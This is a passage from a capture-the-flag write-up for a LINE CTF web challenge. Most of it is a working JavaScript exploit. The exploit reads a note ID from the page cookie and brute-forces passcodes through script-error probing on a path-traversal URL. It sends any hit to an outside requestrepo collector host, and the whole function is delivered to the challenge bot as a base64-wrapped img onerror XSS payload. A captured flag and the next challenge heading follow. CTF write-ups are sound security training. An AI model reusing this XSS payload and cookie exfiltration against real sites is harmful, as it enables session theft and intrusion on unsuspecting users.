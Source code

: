 ```js
    }, [[]]);
    }

    function probeError(url) {
        return new Promise((resolve, reject) => {
            let script = document.createElement('script');
            script.src = url;
            script.onload = () => resolve(1);
            script.onerror = () => resolve(0);
            document.head.appendChild(script);
        });
    }

    let noteId = document.cookie.split("=")[1];

    const REPORT_URL = "https://xexmwndl.requestrepo.com/";
    async function tryCode(code) {
        let md5Code = getMD5First10(code);
        let response = await probeError(`http://msg.line.ctf/public/..%2fnotes/${noteId}/${md5Code}`);
        if (response == 1) {
            location.href = `${REPORT_URL}?passCode=${code}&noteId=${noteId}`
        }
    }

    let codes = [];

    for (let prefix of product("LINECTF".split(''), 4)) {
        for (let sufix of product([">.<", ">,<"])) {
            codes.push(prefix.join("") + sufix.join(""))
        }
    }

    let script = document.createElement('script');
    script.src = "https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/crypto-js.min.js";
    script.onload = (async function() {
        let promises = [];
        for (let code of codes) {
            promises.push(tryCode(code));
        }
    });
    document.head.appendChild(script);
}

let res = btoa(doStuff.toString());
copy(`http://bot.line.ctf/?error=<img src=x onerror="eval('('+atob(\`${res}\`)+')();')" />`)
```

**LINECTF{998c14a3e9e01fceb81b2411030d5205}**

<a name="auth-internal"></a>
## auth-internal (341 pts, 6 solves) - Web
